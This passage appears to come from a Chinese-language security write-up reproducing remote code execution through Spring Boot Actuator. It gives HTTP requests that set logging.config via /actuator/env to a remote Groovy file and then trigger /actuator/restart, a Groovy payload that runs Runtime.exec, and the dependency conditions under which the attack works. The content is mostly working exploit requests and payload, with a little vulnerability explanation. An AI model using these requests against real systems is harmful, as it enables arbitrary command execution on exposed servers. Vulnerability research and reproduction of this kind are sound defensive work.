 restart触发  
```
POST /actuator/restart HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 2

{}
```  
  
groovy依赖  
```
<dependency>
	<groupId>org.codehaus.groovy</groupId>
	<artifactId>groovy</artifactId>
	<version>2.5.8</version>
</dependency>
```  
  
```
POST /actuator/env HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 72

{"name":"logging.config","value":"http://127.0.0.1:8088/example.groovy"}
```  
  
example.groovy  
```
Runtime.getRuntime().exec("calc")
```  
  
restart触发  
```
POST /actuator/restart HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 2

{}
```  
  
核心加载方法位于ContextInitializer.configureByResource(URL) line: 67	  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75TZVIyYZOsxAgqMzqkicUDSvZTs2NcuajAtoiaLSkSt7x8cnWYpPsib5SeIzicMCoxz7tHFb3IdUZ1A/640?wx_fmt=png&from=appmsg "")  
  
注意，springboot默认使用logback，但如果你设置了spring-boot-starter-logging，则会使用log4j，无法复现此漏洞。  
```
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter</artifactId>
    <exclusions>
        <exclusion> 
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
        </exclusion>
    </exclusions>
</dependency>
```  
  